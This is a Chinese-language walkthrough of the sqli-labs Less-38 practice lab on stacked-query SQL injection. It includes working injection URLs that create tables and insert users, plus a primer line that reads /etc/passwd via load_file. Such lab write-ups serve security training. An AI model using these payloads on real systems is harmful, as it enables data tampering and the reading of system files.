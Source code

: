 ```yaml
---
title: Less - 38
date: 2023-03-20T18:27:47Z
lastmod: 2023-03-20T18:39:27Z
---
```


# Less - 38

---

# 一、补充知识

---

堆叠查询注入攻击可以执行多条语句，多语句之间以分号隔开。堆叠查询注入就是利用这个特点，在第二个SQL语句中构造自己的要执行的语句  
新建一个表select * from users;create table A like users;  
删除创建的A表select * from users;drop table test;  
查询数据select * from users;select B,C,D;  
加载文件select * from users;select load_file('/etc/passwd');  
增加一条数据select * from users;insert into users values(18,'zhong','zhong');

---

二、通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'
```

​![image](assets/image-20230320183118-bgk8u56.png)​

根据错误信息判断闭合方式为'--+，并且为字符型注入

---

## 2、在security库下增加一个表

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'; create table test like users;–+
```

​![image](assets/image-20230320183646-ql7cqmi.png)​

没有任何反应，我们进入数据库看看我们的表是否创建成功

​![image](assets/image-20230320183803-5mi2imp.png)​

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-38/?id=1'; insert into users values(18,'cmx','cmx');–+
```

​![image](assets/image-20230320183901-0hl98qa.png)​

​![image](assets/image-20230320183927-0bq75tz.png)​
